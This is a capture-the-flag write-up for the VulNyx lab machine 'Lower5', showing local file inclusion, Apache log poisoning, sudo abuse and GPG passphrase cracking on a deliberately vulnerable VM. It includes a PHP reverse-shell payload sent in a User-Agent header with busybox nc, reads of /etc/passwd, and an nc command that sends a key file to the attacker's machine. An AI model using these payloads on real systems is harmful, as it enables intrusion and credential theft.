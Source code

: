 ```yaml
---
title: VulNyx - Lower5 Writeup
date: 2025-05-17 20:51:00 +0530
categories: [Vulnyx, Lower5]
tags: [vulnyx]
---
```


This write-up covers the solution to the low-difficulty machine "Lower5" released on [VulNyx](https://vulnyx.com/). The machine features a Local File Inclusion (LFI) vulnerability paired with log poisoning, ultimately leading to privilege escalation.

## Nmap

```bash

labs/vulnyx/lower5 
❯ nmap -sC -sV -oA lower5 lower.vl 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-22 02:57 EDT
Nmap scan report for lower.vl (192.168.25.5)
Host is up (0.000089s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: vTeam a Corporate Multipurpose Free Bootstrap Responsive template
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:41:41:2B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.79 seconds
                                                                                                       
```

### Port 80 - HTTP
The site hosted on port 80 uses a script named `page.php`, which includes files based on the `inc` parameter (e.g., `http://192.168.25.10/page.php?inc=about.html`). I suspected a Local File Inclusion (LFI) vulnerability and decided to test it using wfuzz. 

## Local File Inclusion (LFI)

LFI Wordlist Used: [https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt)

```bash
labs/vulnyx/lower5 
❯ wfuzz -c -w file_inclusion_linux.txt -u "http://lower.vl/page.php?inc=FUZZ" --hh=52
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://lower.vl/page.php?inc=FUZZ
Total requests: 2299

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000001815:   200        1862 L   22587 W    256035 Ch   "/var/log/apache2/access.log"                                                                                                                                              
000001016:   200        22 L     26 W       1051 Ch     "/etc/passwd"                                                                                                                                                              

Total time: 1.083493
Processed Requests: 2299
Filtered Requests: 2297
Requests/sec.: 2121.839
                                                                                                                                                                                                                                       
```

### /etc/passwd

```bash
labs/vulnyx/lower5 
❯ curl "http://lower.vl//page.php?inc=/etc/passwd"                            
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
low:x:1000:1000:low:/home/low:/bin/bash
                                       
```

### /var/log/apache2/access.log
Since Apache logs are accessible, making log poisoning a viable path.

```bash
labs/vulnyx/lower5 
❯ curl -s "http://lower.vl//page.php?inc=/var/log/apache2/access.log" | head
zsh: no such file or directory: labs/vulnyx/lower5

192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET / HTTP/1.0" 200 11884 "-" "-"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "OPTIONS / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "POST / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /.git/HEAD HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /nmaplowercheck1745305071 HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "OPTIONS / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /robots.txt HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "POST /sdk HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"

```

## Log Poisoning

### Reverse Shell Injection via User-Agent

We poison the log by sending a malicious `User-Agent` header containing a PHP reverse shell:

```bash
labs/vulnyx/lower5 
❯ curl -s -H "User-Agent: <?php system('busybox nc 192.168.25.4 1234 -e /bin/sh'); ?>" "http://lower.vl/"
```

```bash
labs/vulnyx/lower5 
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.25.4] from (UNKNOWN) [192.168.25.5] 37424
pwd
/var/www/html
whoami
www-data
```
Shell obtained as `www-data`.

## Privilege Escalation

### User flag

```bash
www-data@lower5:/var/www/html$ sudo -l
Matching Defaults entries for www-data on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on lower5:
    (low) NOPASSWD: /usr/bin/bash
```

```bash
www-data@lower5:/var/www/html$ sudo -u low bash 
low@lower5:/var/www/html$ pwd
/var/www/html
low@lower5:/var/www/html$ cd ~
low@lower5:~$ ls
root.gpg  user.txt
low@lower5:~$ cat user.txt 
30a****************************
```

### Root flag
```bash
low@lower5:~$ sudo -l
Matching Defaults entries for low on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User low may run the following commands on lower5:
    (root) NOPASSWD: /usr/bin/pass

```
Running the `pass` command prompts for a GPG passphrase:

```bash
low@lower5:~$ sudo -u root pass root/password
┌───────────────────────────────────────────────────────────────┐
│ Please enter the passphrase to unlock the OpenPGP secret key: │
│ "administrator (password) <admin@lower5.nyx>"                 │
│ 1024-bit RSA key, ID E70EBB1C2CFFB642,                        │
│ created 2025-04-09 (main key ID 9AD17885DA2449A1).            │
│                                                               │
│                                                               │
│ Passphrase: _________________________________________________ │
│                                                               │
│         <OK>                                   <Cancel>       │
└───────────────────────────────────────────────────────────────┘
```

```bash
labs/vulnyx/lower5 
❯ nc -lp 1212 > root.gpg
```

```bash
low@lower5:~$ nc -w3 192.168.25.4 1212 < root.gpg 
```

#### Cracking the GPG passphrase ([John The Ripper](https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html))


```bash
labs/vulnyx/lower5 
❯ gpg2john root.gpg > root_hash

File root.gpg                        
```

```bash
labs/vulnyx/lower5 took 5s 
❯ sudo john --wordlist=rockyou.txt root_hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (administrator)     
1g 0:00:02:11 DONE (2025-05-17 07:49) 0.007629g/s 26.74p/s 26.74c/s 26.74C/s Password1..wateva
Use the "--show" option to display all of the cracked passwords reliably
Session completed.            
```
Recovered password: `Password1`

```bash
low@lower5:~$ sudo -u root /usr/bin/pass root/password
r00tP@zzW0rD123
```

```bash
root@lower5:~# cat root.txt 
008****************************
```